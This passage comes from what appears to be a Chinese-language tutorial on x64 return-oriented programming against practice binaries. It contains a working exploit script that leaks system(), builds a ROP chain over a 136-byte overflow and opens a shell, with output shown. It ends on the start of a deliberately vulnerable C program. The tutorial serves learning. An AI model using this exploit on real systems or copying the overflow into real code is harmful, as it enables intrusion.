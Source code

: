 #pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)

pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive()
运行结果如下：

#!bash
$ python exp6.py 
[+] Started program './level4'
binsh_addr_offset = 0x134d41
pop_ret_offset = -0x22d1e

##########receiving system addr##########

system_addr = 0x7f6f754d8730
binsh_addr = 0x7f6f7560d471
pop_ret_addr = 0x7f6f754b5a12

##########sending payload##########

[*] Switching to interactive mode
$ whoami
mzheng
五、通用gadgets
因为程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但是初始化的过程是相同的，因此针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要达到的效果。

为了方便大家学习x64下的ROP，level3和level4的程序都留了一些辅助函数在程序中，这次我们将这些辅助函数去掉再来挑战一下。目标程序level5.c如下：

#!c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
